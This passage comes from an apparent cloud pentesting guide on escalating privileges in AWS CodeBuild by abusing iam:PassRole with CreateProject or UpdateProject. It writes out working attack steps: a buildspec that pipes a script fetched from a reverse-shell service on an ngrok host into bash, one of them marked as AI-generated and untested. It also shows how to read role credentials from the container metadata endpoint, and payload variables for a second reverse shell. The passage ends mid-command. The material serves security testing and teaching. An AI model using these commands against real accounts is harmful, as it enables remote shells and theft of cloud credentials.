 ```bash
```
{% endtab %}

{% tab title="Example2" %}
{% code overflow="wrap" %}
```bash
# Generated by AI, not tested
# Create a buildspec.yml file with reverse shell command
echo 'version: 0.2
phases:
  build:
    commands:
      - curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash' > buildspec.yml

# Upload the buildspec to the bucket and give access to everyone
aws s3 cp buildspec.yml s3:<S3_BUCKET_NAME>/buildspec.yml

# Create a new CodeBuild project with the buildspec.yml file
aws codebuild create-project --name reverse-shell-project --source type=S3,location=<S3_BUCKET_NAME>/buildspec.yml --artifacts type=NO_ARTIFACTS --environment computeType=BUILD_GENERAL1_SMALL,image=aws/codebuild/standard:5.0,type=LINUX_CONTAINER --service-role <YOUR_HIGH_PRIVILEGE_ROLE_ARN> --timeout-in-minutes 60

# Start a build with the new project
aws codebuild start-build --project-name reverse-shell-project

```
{% endcode %}
{% endtab %}
{% endtabs %}

**Potential Impact:** Direct privesc to any AWS Codebuild role.

{% hint style="warning" %}
In a **Codebuild container** the file `/codebuild/output/tmp/env.sh` contains all the env vars needed to access the **metadata credentials**.

This file contains the **env variable `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`** which contains the **URL path** to access the credentials. It will be something like this `/v2/credentials/2817702c-efcf-4485-9730-8e54303ec420`

Add that to the URL **`http://169.254.170.2/`** and you will be able to dump the role credentials.

Moreover, it also contains the **env variable `ECS_CONTAINER_METADATA_URI`** which contains the complete URL to get **metadata info about the container**.
{% endhint %}

### `iam:PassRole`, `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Just like in the previous section, if instead of creating a build project you can modify it, you can indicate the IAM Role and steal the token

```bash
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

# You need to indicate the name of the project you want to modify
JSON="{
    \"name\": \"<codebuild-demo-project>\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
```